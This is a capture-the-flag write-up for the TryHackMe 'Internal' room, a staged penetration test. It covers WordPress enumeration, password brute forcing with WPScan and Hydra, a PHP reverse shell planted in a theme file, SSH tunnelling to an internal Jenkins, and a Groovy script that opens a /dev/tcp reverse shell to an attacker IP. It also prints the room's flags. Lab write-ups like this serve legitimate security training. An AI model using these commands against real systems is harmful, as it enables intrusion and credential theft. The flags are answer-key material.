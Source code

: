 # [Internal](https://tryhackme.com/r/room/internal)

![Internal](./images/Internal.png)

[Internal](https://tryhackme.com/r/room/internal) is listed as an Medium room Penetration Testing Challenge. An overview of what we’ll be using is listed here:

* Nmap
* Gobuster
* WPScan
* Tuneling
* Hydra

## Task 1 - Pre-engagement Briefing

You have been assigned to a client that wants a penetration test conducted on an environment due to be released to production in three weeks. 

**Scope of Work**

The client requests that an engineer conducts an external, web app, and internal assessment of the provided virtual environment. The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked that you secure two flags (no location provided) as proof of exploitation:

* User.txt
* Root.txt

Additionally, the client has provided the following scope allowances:

* Ensure that you modify your hosts file to reflect internal.thm
* Any tools or techniques are permitted in this engagement
* Locate and note all vulnerabilities found
* Submit the flags discovered to the dashboard
* Only the IP address assigned to your machine is in scope

(Roleplay off)

I encourage you to approach this challenge as an actual penetration test. Consider writing a report, to include an executive summary, vulnerability and exploitation assessment, and remediation suggestions, as this will benefit you in preparation for the eLearnsecurity eCPPT or career as a penetration tester in the field.


Note - this room can be completed without Metasploit

**Writeups will not be accepted for this room.**

## Answer the questions below

* I understand the scope of work

## Task 2 - Deploy and Engage the Client Environment

Having accepted the project, you are provided with the client assessment environment.  Secure the User and Root flags and submit them to the dashboard as proof of exploitation.

### Enumeration & Exploitation

* Scan open port with Nmap

	```
	nmap $IP -p- --script vuln | tee nmap-scan.txt
	```

	![nmap](./images/nmap.png)

* Scan direcotry with Gobuster

	```
	gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u $IP -t 50 | tee gobuster.txt
	```

	![gobuster](./images/gobuster.png)

	We found directory `/blog`

* Try to open `http://$IP/blog`

	![web-internal](./images/web-internal.png)

	We can see on the title Internal link to `http://internal.thm/blog`

* Edit `/etc/hosts`, add target IP as `internal.thm`

	![hosts](./images/hosts.png)

	Open web page again.

	![internal-web](./images/internal-web.png)

* Scan wordpress with wpscan

	```
	wpscan --url http://internal.thm/blog -e u | tee wpscan.txt
	```

	![wpscan](./images/wpscan.png)

	We find username `admin`

* Try to brute force 

	```
	wpscan --url http://internal.thm/blog -U admin -P /usr/share/wordlists/rockyou.txt
	```

	![password](./images/password.png)

	We got password `admin`

* Try to login `http://internal.thm/blog/wp-login.php`

	![wp-login](./images/wp-login.png)

	![login](./images/login.png)

	![dashboard](./images/dashboard.png)

* In the web interface, go to “Appearance > Theme Editor > 404.php” and replace the PHP code with a PHP reverse shell

	![theme](./images/theme.png)

* Setup listener on attacke machine

	```
	nc -nvlp 8888
	```

	![listener](./images/listener.png)

* Browsing to the location of this 404 page to get reverse shell

	```
	http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php
	```

	![revshell](./images/revshell.png)

* Now we should upgrade our shell to make it more stable with Pyhton

	```
	python -c "import pty; pty.spawn('/bin/bash')"
	```

	![pty](./images/pty.png)

* After some more searching, I found a interesting file called wp-save.txt located in the /opt directory. Opening this file, and we got the credential

	![cred](./images/cred.png)

* Change user to `aubreanna`, and get the `user.txt`

	![aubreanna](./images/aubreanna.png)

* Try to open another file `jenkins.txt`

	![jenkins](./images/jenkins.png)

	It says that an internal Jenkins service is running

	```
	netstat -tan | grep 8080
	```

	![netstat](./images/netstat.png)

	We confirm that the service is only available to localhost

* Use SSH tunneling to connect to this remote service and make it accessible on our attacker machine

	```
	ssh -L 4444:172.17.0.2:8080 aubreanna@$IP
	```

	![ssh](./images/ssh.png)

* Open `localhost:4444` on browser

	![localhost](./images/localhost.png)

* Enable Web Developer Tools, try to login with credential `admin:password`, and request resend

	![request](./images/request.png)

* Brute force login with hydra

	```
	hydra -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 -s 4444 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid"
	```

	![hydra](./images/hydra.png)

* Login Jenkins, we can execute commands and exploit this to establish a reverse shell. 

	![dashboard-jenkins](./images/dashboard-jenkins.png)

* Setup new listener on port 5555

	![listen](./images/listen.png)

* Add script under ‘Manage Jenkins’ > ‘Tools and Actions,’ there is a ‘Script Console’ and click run

	```
	r = Runtime.getRuntime()
	p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.17.127.223/5555;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
	p.waitFor()
	```

	![script](./images/script.png)

* Get the shell and root credential

	![root-cred](./images/root-cred.png)

* Login ssh with root credential and get the `root.txt`

	![flag](./images/flag.png)

### Answer the questions below

* User.txt Flag
	
	`THM{int3rna1_fl4g_1}`

	![user](./images/user.png)

* Root.txt Flag

	`THM{d0ck3r_d3str0y3r}`

	![root](./images/root.png)